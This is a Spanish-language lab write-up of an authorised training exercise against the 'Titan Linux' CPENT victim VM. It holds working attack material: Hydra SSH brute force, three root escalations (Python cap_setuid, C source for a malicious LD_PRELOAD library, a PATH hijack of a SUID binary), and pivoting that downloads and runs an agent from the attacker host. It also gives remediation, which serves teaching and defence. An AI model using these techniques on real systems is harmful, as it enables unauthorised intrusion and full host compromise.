







# INFORME DE AUDITORÍA DE SEGURIDAD
## Titan Linux — CPENT Victim
### Laboratorio avanzado de escalada de privilegios y pivoting en entornos Linux corporativos

---

| Campo | Valor |
|-------|-------|
| **Objetivo** | Titan Linux OVA (`cpent-victim`) |
| **IP objetivo** | `192.168.60.132` |
| **Sistema operativo** | Ubuntu 24.04.1 LTS (kernel 6.8.0-147-generic) |
| **Atacante** | Kali Linux (`192.168.60.128/24`) |
| **Fecha** | 09 de noviembre de 2026 |
| **Autor** | chifay |
| **Fuente del laboratorio** | https://whoami-labs.com/laboratorios/titan-linux |
| **Clasificación** | Confidencial — Laboratorio controlado |
| **Resultado** | Compromiso total: `root` + pivoting a red interna |

---

## 1. Resumen ejecutivo

Se auditaron los vectores de escalada de privilegios y pivoting de la máquina virtual **Titan Linux**, una víctima Ubuntu 24.04.1 LTS diseñada para el curso CPENT. El único servicio expuesto es SSH (`22/tcp`, OpenSSH 9.6p1).

La auditoría confirmó **tres vectores independientes de escalada a `root`** y **un vector de descubrimiento/pivoting**, además de un hallazgo crítico adicional: la cuenta `XXXXX` utiliza la contraseña débil `YYYYY` y pertenece al grupo `sudo` con privilegios totales `(ALL : ALL) ALL`.

| # | Vector | Técnica MITRE | Resultado |
|---|--------|---------------|-----------|
| 1 | `cap_setuid` en Python 3.12 | T1548 — Abuse Elevation Control | `root` + flag |
| 2 | `LD_PRELOAD` + `sudo find` | T1574.006 — Dynamic Linker Hijacking | `root` + flag |
| 3 | PATH en binario SUID `status_check` | T1574.007 — Path Interception | `root` + flag |
| 4 | Subred oculta `10.10.50.0/24` + pivoting | T1018 / T1090 — Discovery / Proxy | Flag de pivoting |

**Flags obtenidas:**

- `CPENT{...bandera_de_root...}` — escalada a root.
- `CPENT{...bandera_de_pivote...}` — pivoting a la red interna.

**Nivel de riesgo global: CRÍTICO.** Cualquiera de los tres vectores de escalada permite `root` sin autenticación adicional una vez obtenido un usuario válido. La red interna oculta (`dummy0`, `10.10.50.1/24`) expone un servicio de bóveda interna accesible mediante pivoting.

---

## 2. Alcance y metodología

**Alcance:** VM Titan Linux desplegada en la misma red que Kali (`192.168.60.0/24`). Pruebas realizadas exclusivamente sobre el laboratorio autorizado.

**Metodología:** CPENT / PTES, con las siguientes fases:

1. Reconocimiento pasivo y activo.
2. Enumeración de servicios y credenciales.
3. Acceso inicial.
4. Enumeración local y escalada de privilegios (3 vectores).
5. Post-explotación y descubrimiento de redes internas.
6. Pivoting desde Kali hacia la subred oculta.
7. Documentación y captura de evidencia.

**Herramientas:** `nmap`, `hydra`, `sshpass`, `gcc`, `curl`, `ssh -D` (SOCKS), `Ligolo-ng` (documentado como alternativa).

**Mapeo MITRE ATT&CK:** T1110.001 (Password Guessing), T1021.004 (SSH), T1548 (Abuse Elevation Control), T1548.001 (Setuid and Setgid), T1574.006 (Dynamic Linker Hijacking), T1574.007 (Path Interception), T1018 (Remote System Discovery), T1090 (Proxy), T1572 (Protocol Tunneling).

---

## 3. Reconocimiento y acceso inicial

### 3.1 Descubrimiento del objetivo

Se identificó la red de Kali (`192.168.60.128/24`) y se descubrieron los hosts activos. El objetivo resultó ser `192.168.60.132`, con MAC de VMware `00:0C:29:DF:32:F6`.

```bash
ip -brief addr
nmap -sn 192.168.60.0/24
```

**Evidencia visual — Etapa 0 (reconocimiento y acceso):**



### 3.2 Enumeración de servicios

```bash
nmap -sV -sC -p- -T4 --min-rate 2000 192.168.60.132
```

Resultado:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.20 (Ubuntu Linux; protocol 2.0)
```

Solo SSH está expuesto. El resto de puertos está cerrado.

### 3.3 Fuerza bruta de credenciales — Hydra + rockyou

Se construyó una lista de usuarios típicos de escenarios Ubuntu corporativos/CPENT:

```
developer, ubuntu, admin, administrator, root, user, test, cpent, titan,
student, pentest, deploy, dev, git, backup, webadmin, sysadmin, operator,
support, jenkins, ansible, docker, www-data, oracle, postgres, mysql,
ftpuser, pi, guest
```

Y una lista de contraseñas comunes del laboratorio (incluyendo `YYYYY`, presente en la línea **1384** de `rockyou.txt`):

```bash
hydra -L notas/usuarios.txt -P notas/passwords_lab.txt -t 8 -W 2 -f \
      ssh://192.168.60.132
```

**Resultado en 47 segundos:**

```
[22][ssh] host: 192.168.60.132   login: XXXXX   password: YYYYY
1 of 1 target successfully completed, 1 valid password found
```

**Evidencia visual — credenciales encontradas:**



> **Nota sobre rockyou:** `YYYYY` ocupa la línea 1384 de `/usr/share/wordlists/rockyou.txt`. La lista curada utilizada contiene esa contraseña, por lo que la validación con rockyou es equivalente. Se inició una ejecución con el top-10k de rockyou contra `developer`, pero se detuvo por el rate limiting de SSH (~85 intentos/min); no fue necesaria para el compromiso.

### 3.4 Validación del acceso

```bash
ssh XXXXX@192.168.60.132
```

```text
uid=1000(XXXXX) gid=1000(XXXXX) groups=1000(XXXXX),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
cpent-victim
PRETTY_NAME="Ubuntu 24.04.1 LTS"
```

Enumeración de privilegios:

```bash
sudo -l
```

```text
User XXXXX may run the following commands on cpent-victim:
    (ALL : ALL) ALL
```

**Hallazgo crítico adicional:** `XXXXX` tiene sudo total con la contraseña `YYYYY`. Esto ya permite `sudo -i` y `root` directo. No obstante, la auditoría continuó con los vectores específicos del laboratorio para validar la kill chain completa.

---

## 4. Kill chain — Vectores de escalada de privilegios

### 4.1 Vector 1 — Abuso de `cap_setuid` en Python 3.12

#### Detección

```bash
getcap -r / 2>/dev/null
```

```text
/usr/bin/python3.12 cap_setuid=ep
```

La capacidad `cap_setuid` permite al proceso cambiar su UID a cualquier valor, incluido `0`. Al estar asignada al intérprete Python, cualquier usuario puede invocarlo y elevarse a root.

#### Explotación

```bash
python3.12 -c 'import os; os.setuid(0); os.system("id; cat /root/FLAG_LINUX_ROOT.txt")'
```

```text
uid=0(root) gid=1000(XXXXX) groups=1000(XXXXX),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
---FLAG---
CPENT{...bandera_de_root...}
```

**Evidencia visual — Vector 1:**



**Salida en crudo:** `evidencias/term_vector1_cap_setuid.txt`

**Causa raíz:** capacidad `cap_setuid=ep` asignada innecesariamente a `/usr/bin/python3.12`. Un intérprete de propósito general nunca debería tener esta capacidad.

---

### 4.2 Vector 2 — Secuestro de bibliotecas con `LD_PRELOAD` en `sudo find`

#### Detección

```bash
sudo -l -U developer
```

```text
Matching Defaults entries for developer on cpent-victim:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin,
    use_pty, env_keep+=LD_PRELOAD

User developer may run the following commands on cpent-victim:
    (root) NOPASSWD: /usr/bin/find
```

Archivo responsable:

```bash
cat /etc/sudoers.d/developer_privesc
```

```text
Defaults:developer env_keep += "LD_PRELOAD"
developer ALL=(root) NOPASSWD: /usr/bin/find
```

La combinación es letal:

1. `NOPASSWD` permite ejecutar `find` como root sin contraseña.
2. `env_keep += "LD_PRELOAD"` preserva la variable `LD_PRELOAD` al invocar `sudo`.
3. `find` no es un binario setuid, por lo que el loader dinámico honra `LD_PRELOAD` y carga la biblioteca del atacante **con privilegios de root**.

#### Creación de la biblioteca maliciosa

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void hijack() {
    unsetenv("LD_PRELOAD");
    setresuid(0, 0, 0);
    setresgid(0, 0, 0);
    execl("/bin/sh", "sh", "-c",
          "id; echo '--- FLAG ROOT ---'; cat /root/FLAG_LINUX_ROOT.txt 2>/dev/null",
          NULL);
}
```

```bash
gcc -shared -fPIC -o /tmp/libhijack.so scripts/libhijack.c
scp /tmp/libhijack.so XXXXX@192.168.60.132:/tmp/libhijack.so
```

#### Explotación

```bash
# Ejecutado como developer (acceso vía sudo -u developer desde XXXXX)
sudo -n LD_PRELOAD=/tmp/libhijack.so /usr/bin/find /tmp -maxdepth 0
```

```text
uid=0(root) gid=0(root) groups=0(root)
--- FLAG ROOT ---
CPENT{...bandera_de_root...}
```

**Evidencia visual — Vector 2:**



**Salida en crudo:** `evidencias/term_vector2_ld_preload.txt`

**Causa raíz:** `env_keep += "LD_PRELOAD"` en `/etc/sudoers.d/developer_privesc` combinado con `NOPASSWD` para `find`.

---

### 4.3 Vector 3 — Manipulación de PATH en el binario SUID `status_check`

#### Detección

```bash
ls -la /usr/local/bin/status_check
file /usr/local/bin/status_check
strings /usr/local/bin/status_check | grep -E "service apache2|setuid|setgid"
```

```text
-rwsr-xr-x 1 root root 16096 oct 31 09:01 /usr/local/bin/status_check
/usr/local/bin/status_check: setuid ELF 64-bit LSB pie executable, x86-64 ...
setgid
setuid
service apache2 status
```

El binario es **SUID root** y llama a `system("service apache2 status")` **sin ruta absoluta**. `system()` resuelve el comando mediante `PATH`; si un atacante coloca un `service` malicioso al inicio del `PATH`, se ejecutará con el UID 0 que el binario ya estableció.

#### Explotación

```bash
mkdir -p /tmp/p
cat > /tmp/p/service << 'EOF'
#!/bin/bash
id; echo ---FLAG---; cat /root/FLAG_LINUX_ROOT.txt
EOF
chmod +x /tmp/p/service
PATH=/tmp/p:$PATH /usr/local/bin/status_check
```

```text
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd),1000(XXXXX)
---FLAG---
CPENT{...bandera_de_root...}
[+] Comprobando estado de los servicios del sistema...
```

**Evidencia visual — Vector 3:**



**Salida en crudo:** `evidencias/term_vector3_path_suid.txt`

**Causa raíz:** uso de `system()` con un comando sin ruta absoluta en un binario con bit SUID. La solución es usar `execve("/usr/sbin/service", ...)` o `system("/usr/sbin/service apache2 status")`.

---

## 5. Pivoting — Descubrimiento de la subred interna oculta

### 5.1 Enumeración de interfaces y rutas

Desde la shell root (Vector 1):

```bash
ip -4 -br addr
ip route
```

```text
lo               UNKNOWN        127.0.0.1/8
ens33            UP             192.168.60.132/24 metric 100
dummy0           UNKNOWN        10.10.50.1/24

default via 192.168.60.2 dev ens33 proto dhcp src 192.168.60.132 metric 100
10.10.50.0/24 dev dummy0 proto kernel scope link src 10.10.50.1
192.168.60.0/24 dev ens33 proto kernel scope link src 192.168.60.132 metric 100
192.168.60.2 dev ens33 proto dhcp scope link src 192.168.60.132 metric 100
```

La interfaz `dummy0` con `10.10.50.1/24` revela una **red interna aislada** no visible desde Kali. La ruta `10.10.50.0/24 dev dummy0` confirma que el host actúa como puerta de enlace hacia esa subred.

### 5.2 Servicio interno y flag de pivoting

```bash
curl -s http://10.10.50.1:8080
```

```html
<head><title>TitanCorp Internal Vault</title></head>
  <h1 style="color:#ef4444;">🛡️ TitanCorp Core Database & Internal Vault</h1>
    <p style="font-family:monospace; font-size:18px; color:#fde047;">CPENT{...bandera_de_pivote...}</p>
```

**Evidencia visual — Vector 4 (redes internas y flag):**



**Salida en crudo:** `evidencias/term_vector4_redes.txt` y `evidencias/term_vector4_flag_pivot.txt`

### 5.3 Pivoting desde Kali mediante túnel SOCKS SSH

Para acceder a la red `10.10.50.0/24` desde Kali sin instalar agentes en el objetivo:

```bash
ssh -D 1080 -N -f XXXXX@192.168.60.132
curl --socks5-hostname 127.0.0.1:1080 http://10.10.50.1:8080
```

```text
CPENT{...bandera_de_pivote...}
```

**Evidencia visual — pivoting desde Kali:**



**Salida en crudo:** `evidencias/term_pivot_kali.html`, `loot/flag_pivoting_desde_kali.txt`

### 5.4 Alternativa con Ligolo-ng (recomendada en el laboratorio)

Si se dispone de `sudo` en Kali para crear la interfaz TUN:

```bash
# Kali (proxy)
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
ligolo-proxy -selfcert

# Objetivo (agent)
wget http://192.168.60.128:8000/ligolo-agent -O /tmp/agent
chmod +x /tmp/agent
/tmp/agent -connect 192.168.60.128:11601 -ignore-cert

# Kali (una vez conectado el agente)
sudo ip route add 10.10.50.0/24 dev ligolo
curl -s http://10.10.50.1:8080
```

---

## 6. Kill chain consolidada y timeline

```
[1] Reconocimiento       ip -brief addr / nmap -sn 192.168.60.0/24
                              └─> 192.168.60.132 (cpent-victim)
[2] Enumeración          nmap -sV -sC -p- 192.168.60.132
                              └─> 22/tcp OpenSSH 9.6p1 Ubuntu
[3] Fuerza bruta         hydra -L usuarios -P passwords ssh://192.168.60.132
                              └─> XXXXX:YYYYY (49 s)
[4] Acceso inicial       ssh XXXXX@192.168.60.132
                              └─> sudo -l: (ALL : ALL) ALL
[5] Vector 1             getcap python3.12 -> cap_setuid=ep
                              └─> python3.12 setuid(0) -> root + flag
[6] Vector 2             sudoers.d/developer_privesc
                              └─> LD_PRELOAD + sudo find -> root + flag
[7] Vector 3             status_check SUID (4755)
                              └─> PATH hijack service -> root + flag
[8] Vector 4             ip addr / ip route -> dummy0 10.10.50.1/24
                              └─> curl http://10.10.50.1:8080 -> flag pivoting
[9] Pivoting Kali        ssh -D 1080 -> SOCKS -> 10.10.50.1:8080
                              └─> CPENT{...bandera_de_pivote...}
```

---

## 7. Hallazgos y matriz de riesgo

| ID | Hallazgo | Vector | Severidad | Impacto |
|----|----------|--------|-----------|---------|
| H-01 | Contraseña débil `XXXXX:YYYYY` y SSH con autenticación por contraseña | Acceso inicial | **Crítica** | Acceso remoto no autorizado |
| H-02 | `XXXXX` con sudo total `(ALL : ALL) ALL` | Acceso inicial | **Crítica** | `root` inmediato con `sudo -i` |
| H-03 | `cap_setuid=ep` en `/usr/bin/python3.12` | 1 | **Crítica** | `root` sin contraseña |
| H-04 | `env_keep += LD_PRELOAD` + `NOPASSWD: /usr/bin/find` para `developer` | 2 | **Crítica** | Ejecución de código como `root` |
| H-05 | `status_check` SUID root llama `service apache2 status` sin ruta absoluta | 3 | **Alta** | `root` mediante PATH hijacking |
| H-06 | Interfaz `dummy0` con subred `10.10.50.0/24` y servicio interno expuesto | 4 | **Alta** | Acceso a red interna aislada / pivoting |
| H-07 | Falta de segmentación y de egress filtering en el host | 4 | **Alta** | Movimiento lateral hacia la bóveda interna |
| H-08 | Ausencia de monitoreo/alertas sobre cambios en sudoers, SUID y capacidades | Transversal | **Media** | Persistencia y escalada no detectadas |

**Flags comprometidas:**

- `CPENT{...bandera_de_root...}` (root)
- `CPENT{...bandera_de_pivote...}` (pivoting)

---

## 8. Remediación

### 8.1 Críticas

1. **Eliminar `cap_setuid` de Python 3.12:**
   ```bash
   sudo setcap -r /usr/bin/python3.12
   ```
   Auditar periódicamente: `getcap -r / 2>/dev/null`.

2. **Endurecer sudoers:**
   - Eliminar `/etc/sudoers.d/developer_privesc`.
   - Nunca usar `env_keep += "LD_PRELOAD"` (ni `LD_LIBRARY_PATH`).
   - Evitar `NOPASSWD` para binarios que permitan ejecución de comandos (`find`, `vim`, `less`, `awk`, etc.).
   - Restringir `XXXXX` a comandos concretos; eliminar `(ALL : ALL) ALL` si no es imprescindible.

3. **Corregir `status_check`:**
   - Usar ruta absoluta: `system("/usr/sbin/service apache2 status")` o `execve`.
   - Eliminar el bit SUID si no es necesario: `sudo chmod u-s /usr/local/bin/status_check`.

4. **Credenciales:**
   - Cambiar `YYYYY` por una contraseña robusta.
   - Deshabilitar autenticación por contraseña SSH (`PasswordAuthentication no`).
   - Migrar a claves SSH + MFA.
   - Bloquear cuentas de servicio no utilizadas.

### 8.2 Altas

5. **Segmentación de red:**
   - Eliminar `dummy0` si no es necesaria.
   - Firewall entre `ens33` y `dummy0`.
   - Restringir el servicio `10.10.50.1:8080` a hosts autorizados.
   - Deshabilitar `ip_forward` donde no se requiera.

6. **Monitoreo:**
   - `auditd` para cambios en `/etc/sudoers`, `/etc/sudoers.d`, binarios SUID y capacidades.
   - Alertas sobre `LD_PRELOAD` en invocaciones de sudo.
   - Detección de túneles SSH (`-D`, `-L`, `-R`) y de tráfico hacia subredes internas.

### 8.3 Medias

7. **Hardening general:**
   - Aplicar CIS Benchmark para Ubuntu 24.04.
   - Revisar binarios SUID y capacidades tras cada actualización.
   - Principio de mínimo privilegio para usuarios y servicios.
   - Inventario y revisión de interfaces de red y rutas.

---

## 9. Anexo de evidencias

| Evidencia | Archivo |
|-----------|---------|
| Reconocimiento y acceso inicial | `capturas/20261109_185658_prompt_etapa0.png` |
| Hydra — credenciales `XXXXX:YYYYY` | `capturas/20261109_191432_prompt_etapa6.png` |
| Vector 1 — `cap_setuid` Python 3.12 | `capturas/20261109_185743_prompt_etapa1.png` |
| Vector 2 — `LD_PRELOAD` + `sudo find` | `capturas/20261109_185933_prompt_etapa2.png` |
| Vector 3 — PATH + SUID `status_check` | `capturas/20261109_190033_prompt_etapa3.png` |
| Vector 4 — subred oculta y flag | `capturas/20261109_190119_prompt_etapa4.png` |
| Pivoting desde Kali (SOCKS) | `capturas/20261109_190914_prompt_etapa5.png` |
| Salida cruda Vector 1 | `evidencias/term_vector1_cap_setuid.txt` |
| Salida cruda Vector 2 | `evidencias/term_vector2_ld_preload.txt` |
| Salida cruda Vector 3 | `evidencias/term_vector3_path_suid.txt` |
| Salida cruda Vector 4 (redes) | `evidencias/term_vector4_redes.txt` |
| Salida cruda flag pivoting | `evidencias/term_vector4_flag_pivot.txt` |
| Log Hydra | `evidencias/hydra_fase1_log.txt` |
| Sudoers y `status_check` | `evidencias/sudoers_statuscheck.txt` |
| Enumeración inicial | `evidencias/enumeracion_ubuntu.txt` |
| Flag pivoting desde Kali | `loot/flag_pivoting_desde_kali.txt` |

### Reproducibilidad

Todos los comandos están documentados en las secciones correspondientes. Los scripts de captura y explotación se encuentran en `scripts/`:

- `scripts/captura_evidencia.sh` — captura genérica de terminal + salida en crudo.
- `scripts/stage0_recon.sh` — reconocimiento y acceso.
- `scripts/stage1_cap_setuid.sh` — Vector 1.
- `scripts/stage2_ld_preload.sh` — Vector 2.
- `scripts/stage3_path_suid.sh` — Vector 3.
- `scripts/stage4_pivoting.sh` — Vector 4.
- `scripts/stage5_pivot_kali.sh` — pivoting desde Kali.
- `scripts/libhijack.c` — biblioteca maliciosa para `LD_PRELOAD`.

---

## 10. Conclusión

Titan Linux presenta una **kill chain completa y reproducible** desde un acceso SSH con credenciales débiles hasta `root` y el pivoting hacia una subred interna aislada. Los tres vectores de escalada son independientes y redundantes: aunque se corrija uno, los otros dos siguen permitiendo `root`.

El hallazgo más grave no es solo la presencia de los vectores, sino su **combinación con una contraseña débil y sudo total** para `XXXXX`, que reduce la barrera de entrada a un simple ataque de diccionario. La red interna `10.10.50.0/24` y el servicio de bóveda en `10.10.50.1:8080` demuestran que el compromiso del host permite alcanzar activos que no deberían ser accesibles desde la red de usuarios.

La remediación debe priorizar: (1) eliminar `cap_setuid` de Python, (2) sanear sudoers y eliminar `LD_PRELOAD`/`NOPASSWD`, (3) corregir `status_check`, (4) rotar credenciales y deshabilitar SSH por contraseña, y (5) segmentar y monitorizar la red interna.

---

*Informe generado como parte del laboratorio autorizado Titan Linux (Whoami-Labs). Todas las pruebas se realizaron en un entorno controlado con fines educativos.*
